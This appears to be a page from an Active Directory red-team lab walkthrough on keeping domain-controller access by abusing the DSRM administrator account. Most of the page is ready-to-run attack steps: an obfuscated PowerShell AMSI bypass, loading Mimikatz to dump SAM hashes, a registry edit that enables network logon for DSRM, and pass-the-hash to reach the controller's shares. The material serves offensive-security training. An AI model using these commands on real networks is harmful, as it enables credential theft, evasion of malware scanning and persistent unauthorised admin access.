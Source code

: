# 👽 Abuse the DSRM credential for persistence

{% hint style="info" %}
### What is Directory Services Restore Mode (DSRM)?

Directory Services Restore Mode (DSRM) is a Safe Mode [boot](https://www.techtarget.com/searchwindowsserver/definition/boot) option for [Windows Server](https://www.techtarget.com/searchwindowsserver/definition/Microsoft-Windows-Server-OS-operating-system) [domain controllers](https://www.techtarget.com/searchwindowsserver/definition/domain-controller). DSRM enables an administrator to repair, recover or restore an Active Directory ([AD](https://www.techtarget.com/searchwindowsserver/definition/Active-Directory)) database. Restarting a [domain](https://www.techtarget.com/whatis/definition/domain) controller in DSRM takes it offline so it functions only as a regular server.
{% endhint %}

We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator. With the domain admin privileges obtained earlier, run the following commands on the DC to open a PowerShell remoting session. As always, remember that we could use other tools like SafetyKatz, BetterSafetyKatz

```
$sess = New-PSSession dcorp-dc  
Enter-PSSession -Session $sess  
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
exit 
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to laod Invoke-Mimi on the session, let's run this from the local machine

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

Then once it's done we'll enter the session and run the lsadump::lsa command:

```
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now from our local system we can just pass the hash for the DSRM administrator:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now list all the shares of the domain controller:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
